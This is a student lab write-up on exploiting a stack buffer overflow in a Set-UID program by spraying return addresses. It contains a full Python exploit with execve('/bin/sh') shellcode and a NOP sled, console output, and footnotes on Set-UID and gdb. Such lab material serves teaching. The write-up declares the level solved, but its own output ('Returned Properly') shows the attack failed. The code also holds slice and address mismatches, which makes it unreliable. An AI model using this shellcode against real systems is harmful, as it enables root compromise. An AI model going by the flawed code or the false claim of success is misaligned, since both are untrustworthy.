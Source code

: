 The *spraying* approach puts all the possible locations of return address into the <code>badfile</code>, instead of one location. Since we know that the range of the buffer size is from $100$ to $200$ bytes, the actual distance between the return address field and the beginning of the buffer will be at most $200$ plus some small value; I use $220$ here. If the first $220$ bytes of the buffer (from <code>0xffffcd20</code> to <code>0xffffcd20 + 220</code>) are all sprayed with the return address, it can be assured that one of them will overwrite the actual return address field.

The modified <code>exploit.py</code> program is presented below:

```python
#!/usr/bin/python3
import sys

shellcode= (
  "\x31\xc0"
  "\x50"
  "\x68""//sh"
  "\x68""/bin"
  "\x89\xe3"
  "\x50"
  "\x53"
  "\x89\xe1"
  "\x99"
  "\xb0\x0b"
  "\xcd\x80"
).encode('latin-1')
content = bytearray(0x90 for i in range(517))

start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

ret    = 0xffffcd24 + 220
L = 4
addr = (ret).to_bytes(L, byteorder='little')
content[0 : 219] = addr * 55

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Just as expected, level 2 is solved:

```console
~/Documents/BufferSetUID/code$ vim exploit.py
~/Documents/BufferSetUID/code$ ./exploit.py
~/Documents/BufferSetUID/code$ ./stack-L2
Input size: 517
==== Returned Properly ====
```

## Task 5: Launching Attack on $64$-bit Program (Level 3)


[^1]: From Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006.
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.